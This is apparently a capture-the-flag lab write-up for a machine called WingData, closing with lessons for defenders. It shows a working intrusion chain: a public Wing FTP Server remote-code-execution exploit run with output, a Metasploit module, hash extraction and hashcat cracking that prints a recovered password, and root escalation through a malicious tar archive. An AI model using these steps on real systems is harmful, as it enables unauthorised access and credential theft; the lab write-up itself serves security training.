

# WingData

A Wing FTP Server instance turned out to be the front door, the side door, and the fire exit all at once. An anonymous-login RCE exploit got us command execution, a leaked `settings.xml` gave up the password hashing scheme, and a cracked hash got us SSH access as `wacky`. From there, a `sudo`-able backup restore script trusted a user-controlled `.tar` file a little too much — one crafted archive later, we were root. Textbook "trust nothing that a low-priv user can touch" lesson, wrapped in a fun little chain.
 
---
 
## 1. Reconnaissance
 
Started with the usual `nmap` service scan:
 
```bash
❯ nmap -sV -sC 10.129.62.97
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-13 08:42 +0300
Nmap scan report for 10.129.62.97
Host is up (0.20s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_  256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-title: Did not follow redirect to http://wingdata.htb/
|_http-server-header: Apache/2.4.66 (Debian)
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
 
Two ports, one hostname redirect: `wingdata.htb`. Added it to `/etc/hosts` and moved on.
 

 
Browsing the site revealed a **Client Portal** button pointing to a subdomain: `ftp.wingdata.htb`. Added that to `/etc/hosts` as well.
 

 
That subdomain hosted a **Wing FTP Server** login page — a good sign, since Wing FTP has had some juicy vulnerabilities in the wild.
 
---
 
## 2. Initial Foothold — Wing FTP RCE
 
A quick search turned up a public RCE exploit for Wing FTP Server:
[exploit-db.com/exploits/52347](https://www.exploit-db.com/exploits/52347)
 
```bash
❯ python3 52347.py -u http://ftp.wingdata.htb -c "ls -al"
 
[*] Testing target: http://ftp.wingdata.htb
[+] Sending POST request to http://ftp.wingdata.htb/loginok.html with command: 'ls -al' and username: 'anonymous'
[+] UID extracted: 5aa5e212fb577fd6e2326c036ac9aba1f528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb/dir.html with UID: 5aa5e212fb577fd6e2326c036ac9aba1f528764d624db129b32c21fbca0cb8d6
 
--- Command Output ---
total 26504
drwxr-x---  9 wingftp wingftp     4096 May 13 01:38 .
drwxr-xr-x  4 root    root        4096 Feb  9 08:19 ..
drwxr-x---  4 wingftp wingftp     4096 May 13 01:38 Data
-rwxr-x---  1 wingftp wingftp     4834 Jul 31  2018 License.txt
drwxr-x---  5 wingftp wingftp     4096 May 13 02:22 Log
drwxr-x---  2 wingftp wingftp     4096 Feb  9 08:19 lua
-rw-r--r--  1 wingftp wingftp        5 May 13 01:38 pid-wftpserver.pid
-rwxr-x---  1 wingftp wingftp     1434 Sep 13  2020 README
drwxr-x---  2 wingftp wingftp     4096 May 13 02:22 session
drwxr-x---  2 wingftp wingftp     4096 Feb  9 08:19 session_admin
-rwxr-x---  1 wingftp wingftp   115258 Mar 26  2025 version.txt
drwxr-x--- 10 wingftp wingftp    12288 Feb  9 08:19 webadmin
drwxr-x--- 13 wingftp wingftp     4096 Feb  9 08:19 webclient
-rwxr-x---  1 wingftp wingftp  4649509 Sep 14  2021 wftpconsole
-rwxr-x---  1 wingftp wingftp     3272 Nov  2  2025 wftp_default_ssh.key
-rwxr-x---  1 wingftp wingftp     1342 Nov 22  2017 wftp_default_ssl.crt
-rwxr-x---  1 wingftp wingftp     1675 Nov 22  2017 wftp_default_ssl.key
-rwxr-x---  1 wingftp wingftp 22283682 Mar 26  2025 wftpserver
```
 
Command execution confirmed. Poked around a bit further:
 
```bash
❯ python3 52347.py -u http://ftp.wingdata.htb -c "ls -la /home/"
 
--- Command Output ---
total 12
drwxr-xr-x  3 root  root  4096 Nov  3  2025 .
drwxr-xr-x 18 root  root  4096 Feb  9 08:19 ..
drwxrwx---  2 wacky wacky 4096 Jan 22 04:41 wacky
```
 
A user, `wacky`, showed up right away. Kept digging into the Wing FTP data directory:
 
```bash
❯ python3 52347.py -u http://ftp.wingdata.htb -c "ls ./Data"
 
--- Command Output ---
1
_ADMINISTRATOR
bookmark_db
settings.xml
ssh_host_ecdsa_key
ssh_host_key
```
 
Running raw commands through the exploit script one at a time was slow and clunky, so I switched to **Metasploit**, which has a dedicated module for the underlying vulnerability:
 
```
msf > search CVE-2025-47812
 
Matching Modules
================
   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/windows/ftp/wing_ftp_admin_exec    2014-06-19        excellent  Yes    Wing FTP Server Authenticated Command Execution
   1  exploit/multi/http/wingftp_null_byte_rce   2025-06-30        excellent  Yes    Wing FTP Server NULL-byte Authentication Bypass (CVE-2025-47812)
   2    \_ target: Unix/Linux Command Shell      .                 .          .      .
   3    \_ target: Windows Command Shell         .                 .          .      .
 
msf > use 1
```
 
Set the target options and fired it off.
 

 
---
 
## 3. Credential Harvesting
 
Inside `Data/1/`, the user account definitions for `wacky` were sitting in `users/wacky.xml`, complete with a password hash. Before cracking, `settings.xml` conveniently spelled out the hashing scheme in use:
 
```
 <snip>
    <EnableSHA256>1</EnableSHA256>
    <SaltingString>WingFTP</SaltingString>
 <snip>
```
 
`SHA-256(password + salt)`, salt = `WingFTP`. Good enough to build a hashcat attack.
 
```
 $ cat wacky.xml
  <?xml version="1.0" ?>
   <USER_ACCOUNTS Description="Wing FTP Server User Accounts">
     <USER>
        <UserName>wacky</UserName>
        <EnableAccount>1</EnableAccount>
        <EnablePassword>1</EnablePassword>
        <Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
        <ProtocolType>63</ProtocolType>
        <snip>
     </USER>
   </USER_ACCOUNTS>
```
 

 
First hashcat attempt used mode `1420` — wrong mode, no hits. The correct mode for `SHA256(pass.salt)` is **1410**:
 
```
hashcat -m 1410 hash.txt rockyou.txt
 
32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP:!#7Blushing^*Bride5
 
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1410 (sha256($pass.$salt))
Time.Started.....: Wed May 13 10:06:38 2026, (2 secs)
Time.Estimated...: Wed May 13 10:06:40 2026, (0 secs)
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Speed.#01........:  8007.9 kH/s
```
 
Cracked in under two seconds against `rockyou.txt` — a good reminder that "custom salting" isn't the same thing as "actually protecting weak passwords."
 
**Credentials:** `wacky : !#7Blushing^*Bride5`
 
---
 
## 4. SSH Access — User Flag
 
Logged in over SSH with the cracked credentials.
 

 
User flag: obtained. 
 
---
 
## 5. Privilege Escalation
 
Standard `sudo -l` enumeration turned up something interesting: `wacky` had sudo rights to run `/opt/backup_clients/restore_backup_clients.py`.
 

 
Reviewing the script showed it restores client backups from a `.tar` archive — and critically, the path to that archive was fully controlled by `wacky`. Since the script runs as **root**, a maliciously crafted tar file (think path traversal / symlink tricks during extraction) means arbitrary file write or execution as root.
 
This lines up with a public proof-of-concept:
[CVE-2025-4517-POC (GitHub)](https://github.com/AzureADTrent/CVE-2025-4517-POC/blob/main/CVE-2025-4517-POC.py)
 
Hosted the exploit on my attack box and pulled it over to the target:
 

 
Ran it against the vulnerable restore script:
 

 
Root shell acquired. 
 

 
Root flag: obtained. 
 

 
---
 
## 6. Summary & Takeaways
 
| Step | Vulnerability | Result |
|---|---|---|
| Initial access | Wing FTP Server RCE (anonymous login) | Remote command execution as `wingftp` |
| Lateral move | Leaked `settings.xml` + weak password hashcat crack | SSH access as `wacky` |
| Privilege escalation | CVE-2025-4517 – unsafe tar extraction in a root-run script | Root shell |
 
**Lessons for defenders:**
- Don't expose FTP admin panels to the internet without patching known RCEs — Wing FTP has a rough CVE history.
- Custom salting schemes are not a substitute for strong, unique passwords. `SHA256(pass+salt)` cracks just as fast as plain `SHA256` once the salt is known.
- Never let a `sudo`-elevated script accept a user-controlled archive path without validating its contents. Tar extraction is a classic root-escalation vector (path traversal, symlink attacks, permission bits).
GG. 🏁